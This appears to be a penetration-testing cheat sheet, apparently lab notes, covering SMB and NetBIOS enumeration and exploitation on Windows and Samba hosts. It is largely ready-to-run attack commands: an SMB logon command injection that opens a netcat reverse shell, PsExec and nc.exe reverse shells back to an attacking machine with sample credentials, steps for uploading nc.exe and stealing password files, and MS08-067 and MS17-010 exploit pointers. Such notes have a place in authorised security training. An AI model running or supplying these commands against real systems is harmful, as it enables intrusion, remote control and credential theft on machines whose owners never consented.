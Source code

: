 Netbios is an API for the SMB protocol. A SMB client will interact with a Netbios API to send an SMB command to an SMB server, then listen for replies.

SMB/Netbios enumeration
```bash
# Tools
$ nmblookup -A 10.11.1.XXX
$ smbclient //MOUNT/share -I 10.11.1.XXX -N
$ rpcclient -U "" 10.11.1.XXX
^RPCCLIENT ENUM GUIDE: https://github.com/Resilient-Ninja/Infrastructure-PenTest/blob/master/Vulnerability%20Analysis.md
$ enum4linux 10.11.1.XXX        // enum info from Windows and Samba hosts 
$ nbtscan 10.11.1.XXX           // Netbios nameserver scanner

# Find named pipes
`msfconsole> use auxiliary/scanner/smb/pipe_auditor`
```

Accessing shared dirs:
* `smbclient \\\\10.11.1.75\\Users` or just `smbclient \\\\10.11.1.75\\{SHARE_NAMES}`
* `smb:\> put src_file remote_file`
* `smb:\> get remote_file`
* Put nc.exe => reverse shell
* Get password files => access via. ssh/rdp

Access SMB shares with spaces in name:
```bash
$ smbclient \\\\10.11.1.136\\Bob\ Share
```

SMB "Logon" reverse shell:
```bash
smb> logon "/=`nc 192.168.1.10 4444 -e /bin/bash
```

MS17-010 Code Exec
* `PsExec64.exe \\10.11.1.49 -u Alice -p aliceishere ipconfig` (see more cmds: https://ss64.com/nt/psexec.html)
* `PsExec -u tom -p iamtom \\TOMSCOMP C:\path\to\nc.exe IP_OF_ATTACKING_SYSTEM 8080 -e C:\windows\system32\cmd.exe`
* `runas`
* `nc.exe 10.11.0.42 443 -e cmd.exe`
* Add new admin account: https://www.securenetworkinc.com/news/2017/9/7/a-guide-to-exploiting-ms17-010-with-metasploit

Privesc
* Mount shared drives:  
```bash
$ net use z: \\10.11.1.49\Users /user:alice aliceishere     // mount with auth
$ net use z: \\ACCESS\SHARENAME$                            // mount without auth
```

Working exploits:
* [MS08-067] NetAPI module in Windows SMB
* [MS17_010] Eternal blue detection: `use auxiliary/scanner/smb/smb_ms17_010`
* [MS17-010 ALTERNATIVE METHOD]: Adding new admin account https://www.securenetworkinc.com/news/2017/9/7/a-guide-to-exploiting-ms17-010-with-metasploit
